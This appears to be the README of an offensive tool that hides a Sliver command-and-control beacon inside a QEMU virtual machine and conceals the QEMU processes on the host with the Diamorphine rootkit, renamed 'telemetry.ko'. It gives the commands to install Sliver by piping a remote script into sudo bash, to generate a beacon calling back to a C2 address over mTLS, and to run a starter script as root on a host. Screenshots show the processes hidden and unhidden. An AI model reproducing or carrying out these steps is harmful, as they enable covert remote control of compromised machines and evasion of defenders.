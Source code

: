 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.
Static network configuration.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

![Image 0](https://i.imgur.com/wGIcRK8.jpeg)

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;


VM in QEMU:

![Image 1](https://i.imgur.com/yxWqAgM.jpeg)

Before rootkit execution:

![Image 2](https://i.imgur.com/uLHbYHd.jpeg)

QEMU processes hidden on a host:

![Image 3](https://i.imgur.com/jD5UP5b.jpeg)

Unhiden:

![Image 4](https://i.imgur.com/dTE7umq.jpeg)


---

Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu
- https://github.com/BishopFox/sliver

